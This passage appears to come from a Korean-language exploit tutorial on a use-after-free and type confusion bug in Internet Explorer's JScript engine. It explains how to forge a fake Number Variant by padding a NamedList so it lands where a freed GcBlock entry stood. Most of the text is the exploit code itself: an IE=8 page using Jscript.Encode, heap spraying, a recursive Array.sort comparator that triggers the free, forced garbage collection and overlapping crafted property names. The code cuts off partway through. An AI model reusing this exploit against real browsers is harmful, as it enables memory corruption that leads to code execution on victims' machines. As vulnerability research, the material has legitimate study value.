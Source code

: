  Number Variant의 종류는 0x0003 이다. NamedList를 이용하여 가짜 Number Variant를 만든다. NamedList에서 생성하는 가짜 Variant는 해제되기 전 GcBlock에 위치한 Variant와 동일한 위치에 적재되어야 한다. NamedList는 GcBlock과 구조가 다르므로 패딩을 주어 위치를 맞춘다.

Type Confusion을 이용하여 가짜 Number를 구현한 코드는 다음과 같다.



```
<meta http-equiv="X-UA-Compatible" content="IE=8"></meta>
<script language="Jscript.Encode">
    var arr_spray = new Array();
    var arr_uaf = new Array();
    var arr_overlap = new Array();
 
    var arr_ref = new Array();
    var arr_sort = new Array();
 
    var callback_idx = 0;
    var maxnum = 1000;
 
    var name = "\u4141\u4141"; // padding
    while (name.length != 0x16A) {
        name += "\u0003\u0000\u0000\u0000\u1337\u0000\u0000\u0000"; // 0x0003 is Number
    }
    while (name.length != 0x178) {
        name += "\u4141";
    }
    
    function fncCompare(arg1, arg2) {
        if (callback_idx < (maxnum-1)) {
            arg1 = arr_uaf[callback_idx];
            callback_idx = callback_idx + 1;
            arr_sort[callback_idx].sort(fncCompare);
            arr_ref.push(arg1);
 
        } else {
 
            // for GcBlockFactory::FreeBlk
            for (var i = 0; i < 50 * 100; i++) {
                arr_spray[i] = new Object();
            }
            for (var i = 0; i < 50 * 100; i++) {
                arr_spray[i] = null;
            }
            CollectGarbage();
 
            // free
            for (var i = 0; i < maxnum; i++) {
                arr_uaf[i] = null;
            }
            CollectGarbage();
 
            // overlap
            for (var i = 0; i < 0x1000; i++) {
                arr_overlap[i][name] = 1;
            }
        }
 
        return 1;
    }
 
    for (var i = 0; i < 0x1000; i++) {
        arr_overlap[i] = new Array();
    }
 
    for (var i = 0; i < maxnum; i++) {
```